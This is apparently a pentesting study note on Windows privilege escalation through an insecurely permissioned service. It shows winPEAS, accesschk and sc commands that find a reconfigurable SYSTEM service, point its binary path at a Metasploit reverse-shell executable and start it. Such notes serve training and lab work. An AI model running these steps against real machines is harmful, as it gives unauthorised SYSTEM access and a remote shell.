 # Insecure Permission

Each service has an ACL which defines certain service-specific permissions. Some permissions are innocuous \(e.g. SERVICE\_QUERY\_CONFIG, SERVICE\_QUERY\_STATUS\). Some may be useful \(e.g. SERVICE\_STOP, SERVICE\_START\). Some are dangerous \(e.g. SERVICE\_CHANGE\_CONFIG, SERVICE\_ALL\_ACCESS\)

**If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.** 

Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges! unless the user you have access to can reboot the system and the service would automatically run on startup

we use winPEAS to find services with insecure permissions

![](../../../../.gitbook/assets/image%20%2882%29.png)

![](../../../../.gitbook/assets/image%20%2898%29.png)

Note that we can modify the “daclsvc” service.

We can confirm this with accesschk.exe:

```text
 .\accesschk.exe /accepteula -uwcqv user daclsvc
```

![](../../../../.gitbook/assets/image%20%2892%29.png)

Check the current configuration of the service:

```text
sc qc daclsvc
```

![](../../../../.gitbook/assets/image%20%2872%29.png)

demand start means the service has to started manually he binary pathname is also available the service has no dependencies and it also should run with the system user permissions

Check the current status of the service:

```text
​sc query daclsvc
```

![](../../../../.gitbook/assets/image%20%2893%29.png)

the service is stopped

since we can change the service configs the easiest way to exploit this is to set the binary path to the location of a reverse shell payload

create a reverse shell with metasploit and place it in a directory where you have read/write permission

then Reconfigure the service to use our reverse shell executable:

```text
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
```

![](../../../../.gitbook/assets/image%20%2885%29.png)

Start a listener on Kali, and then start the service to trigger the exploit:

```text
net start daclsvc
```

![](../../../../.gitbook/assets/image%20%2884%29.png)

